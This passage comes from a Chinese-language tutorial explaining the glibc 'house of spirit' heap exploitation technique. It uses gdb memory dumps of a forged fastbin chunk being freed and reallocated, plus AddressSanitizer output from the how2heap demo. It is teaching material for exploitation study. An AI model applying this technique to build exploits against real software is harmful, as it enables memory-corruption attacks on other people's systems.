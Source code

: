 其中下面的宏函数用于获得 next chunk：

```c
/* Treat space at ptr + offset as a chunk */
#define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
```

然后修改指针 a 指向 (fake chunk 1 + 0x10) 的位置，即上面提到的 `mem`。然后将其传递给 free 函数，这时程序就会误以为这是一块真的 chunk，然后将其释放并加入到 fastbin 中。

```text
gef➤  x/gx &a
0x7fffffffdca0: 0x00007fffffffdcc0
gef➤  x/10gx &fake_chunks
0x7fffffffdcb0: 0x0000000000000000  0x0000000000000020  <-- fake chunk 1 [be freed]
0x7fffffffdcc0: 0x0000000000000000  0x0000000000000000
0x7fffffffdcd0: 0x0000000000000001  0x0000000000001234  <-- fake chunk 2
0x7fffffffdce0: 0x4141414141414141  0x0000000000000000
0x7fffffffdcf0: 0x0000000000400820  0x00000000004005b0
gef➤  heap bins fast
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x7fffffffdcc0, size=0x20, flags=)
```

这时如果我们 malloc 一个对应大小的 fast chunk，程序将从 fastbins 中分配出这块被释放的 chunk。

```text
gef➤  x/10gx &fake_chunks
0x7fffffffdcb0: 0x0000000000000000  0x0000000000000020  <-- new chunk
0x7fffffffdcc0: 0x4242424242424242  0x0000000000000000
0x7fffffffdcd0: 0x0000000000000001  0x0000000000001234  <-- fake chunk 2
0x7fffffffdce0: 0x4141414141414141  0x0000000000000000
0x7fffffffdcf0: 0x0000000000400820  0x00000000004005b0
gef➤  x/gx &b
0x7fffffffdca8: 0x00007fffffffdcc0
```

所以 house-of-spirit 的主要目的是，当我们伪造的 fake chunk 内部存在不可控区域时，运用这一技术可以将这片区域变成可控的。上面为了方便观察，在 fake chunk 里填充一些字母，但在现实中这些位置很可能是不可控的，而 house-of-spirit 也正是以此为目的而出现的。

该技术的缺点也是需要对栈地址进行泄漏，否则无法正确覆盖需要释放的堆指针，且在构造数据时，需要满足对齐的要求等。

加上内存检测参数重新编译，可以看到问题所在，即尝试 free 一块不是由 malloc 分配的 chunk：

```text
$ gcc -fsanitize=address -g house_of_spirit.c
$ ./a.out
We will overwrite a pointer to point to a fake 'fastbin' region. This region contains two chunks.
The first one:  0x7fffa61d6c00
The second one: 0x7fffa61d6c20
Overwritting our pointer with the address of the fake region inside the fake first chunk, 0x7fffa61d6c00.
Freeing the overwritten pointer.
=================================================================
==5282==ERROR: AddressSanitizer: attempting free on address which was not malloc()-ed: 0x7fffa61d6c10 in thread T0
    #0 0x7fc4c3a332ca in __interceptor_free (/usr/lib/x86_64-linux-gnu/libasan.so.2+0x982ca)
    #1 0x400cab in main /home/firmyy/how2heap/house_of_spirit.c:24
    #2 0x7fc4c35f182f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
    #3 0x4009b8 in _start (/home/firmyy/how2heap/a.out+0x4009b8)
```

house-of-spirit 在 libc-2.26 下的利用可以查看章节 4.14。

## 参考资料

- [how2heap](https://github.com/shellphish/how2heap)
- [Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)
- <<Glibc堆利用的若干方法>>
